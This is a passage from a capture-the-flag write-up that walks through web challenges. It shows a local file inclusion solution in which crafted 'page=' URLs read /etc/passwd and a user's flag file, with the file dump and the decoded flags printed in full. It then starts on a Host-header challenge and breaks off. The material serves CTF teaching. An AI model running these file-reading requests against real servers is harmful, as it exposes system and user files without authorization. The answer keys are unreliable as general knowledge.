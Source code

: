 The flag we get is `NULL{The_Th0u$@nd_y@rD_sT@r3}`.

## Web 200 - Hackerman

Accessing this page, we see a fairly minimal page with nothing but a couple of links. Trying the links, we are taken to the
URLs `http://challenge.nullify.uno:5252/index.php?page=submit` and `http://challenge.nullify.uno:5252/index.php?page=login`,
both pages of which are empty. The URL format seems possibly susceptible to any LFi directory transversal attack. We try
to access a common readable file by entering the URL `http://challenge.nullify.uno:5252/index.php?page=/etc/passwd`. Sure enough,
we get a dump of the file's contents:

`root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List
Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:103:systemd
Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:104:systemd Network
Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd
Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus
Proxy,,,:/run/systemd:/bin/false
hackerman:x:1000:1000::/home/hackerman:/home/TlVMTHtUQGszX3MwbTNfRnIzM19wMDFudHp9Cg==`

Notice the suspicious base64 string in the bottom line. Let's decode that and see what
we get:

`NULL{T@k3_s0m3_Fr33_p01ntz}`

This is not our Hackerman flag; it is, however, the Hackerman Bonus Flag, worth 25 points.

Now that we have found a way to read files, perhaps our flag file is not too far away. We may
try `http://challenge.nullify.uno:5252/index.php?page=flag.txt`, but this is a false flag file
which contains no useful information. However, recalling the /etc/passwd file, we see that there
is a user called 'hackerman', and his home folder is /home/hackerman. Perhaps the flag is there
instead? Our attempt: `http://challenge.nullify.uno:5252/index.php?page=/home/hackerman/flag.txt`.

This time we get results. The flag obtained from this file is `NULL{LFI_FTW_and_Th3_lulz}`.

## Web 300 - PHP Host

Opening this webpage is extremely disappointing. There is nothing but text. However, this does expedite
our process of searching for a vulnerability. It seems clear now that it would be more beneficial to look
through our request and response headers. It is interesting, one may notice, that this webpage located at
challenge.nullify.uno:5353 calls itself hsctfwebhosting.com on its disappointingly plain page? Perhaps a
change of the Host header will make a difference. If we send a custom request with the Host header set to
`hsctfwebhosting.com`, we obtain something different:
